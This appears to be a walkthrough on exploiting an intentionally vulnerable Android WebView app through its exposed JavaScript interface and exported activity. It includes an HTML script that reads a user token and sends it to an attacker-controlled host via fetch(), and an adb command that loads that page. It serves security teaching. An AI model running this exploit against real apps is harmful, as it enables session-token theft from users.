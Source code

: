#### Key Points

1.  **JavaScript Enabled**:

    ```java
    webView.getSettings().setJavaScriptEnabled(true);
    ```

    * Enabling JavaScript allows the WebView to execute JavaScript code, which can be exploited if the WebView loads malicious content.
2.  **JavaScript Interface**:

    ```java
    webView.addJavascriptInterface(new WebAppInterface(this), "Android");
    ```

    * This creates a bridge between JavaScript and the Android app, allowing JavaScript to call Java methods in the app.
    * If the WebView loads untrusted content, an attacker can use this interface to execute malicious JavaScript.
3. **Exported Activity**:
   * If the activity is exported (accessible by other apps or via intents), an attacker can force the WebView to load a malicious URL.

#### Exploitation Steps

**1. Token Theft**

* The `WebAppInterface` exposes a method (`getUserToken`) that returns a token. An attacker can steal this token using JavaScript.

**Exploit JavaScript Code**:

```html
<script type="text/javascript">
    // Access the Android interface and call the getUserToken method
    var token = Android.getUserToken();
    // Exfiltrate the token to an attacker-controlled server
    fetch('https://attacker-server.com/steal?token=' + token);
</script>
```

**Steps**:

1. Host the above script on a server (e.g., Apache or Ngrok).
2.  Use an intent to load the malicious URL in the WebView:

    ```bash
    adb shell am start -n com.tmh.vulnwebview/.SupportWebView --es support_url "https://attacker-server.com/exploit.html"
    ```
3. The token will be sent to the attacker's server.

***

**2. Cross-Site Scripting (XSS)**

* An attacker can inject malicious JavaScript into the WebView to execute arbitrary code.
